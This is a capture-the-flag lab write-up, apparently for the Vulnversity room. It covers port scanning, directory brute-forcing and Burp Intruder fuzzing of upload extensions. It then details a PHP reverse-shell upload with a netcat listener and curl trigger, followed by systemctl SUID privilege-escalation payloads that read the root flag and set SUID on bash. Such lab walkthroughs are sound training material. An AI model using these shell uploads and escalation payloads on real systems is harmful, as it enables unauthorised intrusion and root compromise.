








# vulnversity

## nmap
```
Port 21 ftp
Port 22 ssh
Port 139 Samba
Port 445 Samba
Port 3128 Squid
Port 3333 http
```
If have a look at the website now remembering to view from port 3333 for http, we find what appears to be a scool.collage or university type web design. There doesn't appear to anything on the site with all links going back to home page.Viewing page source doesn't give any hints that I can see from the comments section.
Onto gobuster.

## gobuster
```
/css
/font
/images
/index.html
/internal # provides upload facility with files stored held at /internal/uploads
/js
/server-status

```
After an initial run using directory-list-2.3-medium,txt we find an /internal directory with a page that allows you to upload files. Running gobuster on this directory then provides us with the directory those files are stored in.

It would be rude not to try and see if it would upload specific files and or file types. I have been doing these rooms as part of my new CTF hobby for about 2 months now and had picked up some reverse scripts, which I keep stored in the in the Zim Desktop Wiki that has become my go to document storage for CTF in general.
I tried the file in the off chance it would work - php-reverse-shell.php (by pentestmonkey), but that came back as "Extension not allowed."
Having done some work on the Burp Suite room, I decided run that next.

## burp suite
If you have not completed the Burpe Suite (BS) room, it is recommended that you do so. Based on the Community Edition and readily available as software download or indeed part of Kali, it can be a very useful tool. One of the pre-requisites is that your browser is set to use the local host proxy. This can be simplified by using a Firefox extension; Foxy Proxy. Set up details for this can easily be found on the internet.

I currently use Firefox as after some time doing these CTFs, the advice given pointed that way, though I am sure there are other browsers you may prefer. We have already tried a file, lets do it this time with Burpe Suite capturing the results.

Switch on Foxy Proxy and start BS. You may be prompted to update, so this is your choice but the window can just be closed. You will then have the options to start a temporary project (only one you can select unless you have the pro version). Just ensure **Use Burp defaults** is ticked and then hit **Start Burp**. This takes us to the main window.


<br>
<br>

Now click on the Proxy tab, and verify that the **Intercept is on** is selected.
Next from the Firefox browser, :3333/internal/ site, upload a file.
BS will open and you will see that it has captured the information from the host to the server.
If you have a look round you should be able to see your file name in the Content-Disposition:


<br>
<br>

Lets use that information to use one of the other BS tools - Intruder. Right click anywhere in the within this Proxy/Intercept/Raw field and **Send to Intruder**

The Intruder tab next to Proxy now highlights. Click on this and we see four tabs.


<br>
<br>

We now see 4 new tabs. We will cover them individually.

1. Target. This is automatuically generated and should be the target computer.
<br>
<br>

<br>
<br>
2. Positions. This will have automatically selected the complete filename we tried to enter on the website. We need to change this slightly as we just want to test the actual extensions.
<br>
<br>

<br>
<br>
Click the **Clear** button on the side menu. highlight file extension and delete the decimal point.
<br>
<br>

<br>
<br>
What this is doing is selecting the area that BS will update each time it tries to upload a file. The filename stays the same, only the extension changes. The reason we remove the decimal point is that in the payload file that we will be using, each extension already has the point in place. Finally ensure that the Attack type is **Sniper**
3. Payloads. We keep the Payload Set as 1 and Type as a Simple List. Now load the options file, which could be the file recommended in the room containing five file types.
<br>
<br>

<br>
<br>
In this case I will use the extensions-common-list. Last thing to do in this tab is to untick Payload Encoding otherwise it will change the decimal point to an encoded character.
4. Options. Finally I leave these to the default settings.
<br>
<br>

<br>
<br>
Now we are ready, we just need to disable Foxy Proxy, go to the Proxy tab, and ensure that **Intercept is off**
Go back to Intruder and use the **Start Attack** button, top right of the screen.
A demo warning pops up highlighting some functionality is disabled. Just hit **OK**
5.Once the attack is completed we see a **Results** tab. 
<br>
<br>

<br>
<br>
The trick here is to look at the length of the return file, where you can filter on size. You will then notice that one file stands out. We now know what extension our payload needs to be uploaded as. We can now amend our file accordingly.

## reverse shell
We will use the pentestmonkey reverse shell ensuring that as well as changing the extention to .phtml, that we update the IP address and Port of the attackers machine, in preperation for the netcat command.
```
nc -lnvp 9001
````
We now upload the file directly to the _/internal/upload_ folder and run it from the browser by clicking or by using a curl command.
```
curl ttp://10.10.74.180:3333/internal/uploads/php-reverse-shell.phtml
```
This now gives us access to a reverse shell. We can create a proper interactive shell by:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
We cannot access sudo permissions so let us look at SUID bit escalation:
```
find / -perm -4000 2>/dev/null
```
Using GTFObins we can see that there are two options for systemctl as SUID and sudo

```
TF=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
* TF=$(mktemp).service: we will create a new environment variable called “TF” (the name can be anything). Next, we will be using the mktemp command to create a new temporary file as a system service file.
* echo '[Service]: use the echo command to enter an input into the system. The single quote (‘) will allow us to enter into multi-line mode so we can enter the rest of the commands.
* Type=oneshot: declare the service as oneshot, which means that the service will execute the action and then immediately exit.
* ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output": when the service starts, use the sh command to execute (-c) everything inside the double quotes. This will send the results of the command “/root/root.txt” into a file named output in the tmp directory.
* [Install]: denotes the second part of our system services file.
* WantedBy=multi-user.target' > $TF: set the service to run once it reaches a certain runlevel. Multi-user.target is runlevel 3, while a functional Linux OS with GUI is runlevel 5. This dependency input and everything before is then redirected into the TF variable. The single quote after target is to denote the end of our echo entry.
* Systemctl link $TF: link the TF variable to systemctl so it can be executed by systemctl even though it’s in a different path from other service files.
* systemctl enable --now $TF: enable the service file stored in the TF variable immediately. It will reload the system manager to ensure the changes are in effect.

Then just read the root flag file:
```
cat /tmp/output
```

We can also escalate to a bash shell with a slighyt change of command.
```
eop=$(mktemp).service
echo '[Service]

ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $eop

/bin/systemctl link $eop

/bin/systemctl enable --now $eop
```
This changes the SUID of bash to allow us to use as root. We simply:
```bash -p
```
And now we have root permissions in the shell. Again use to read the flag file.
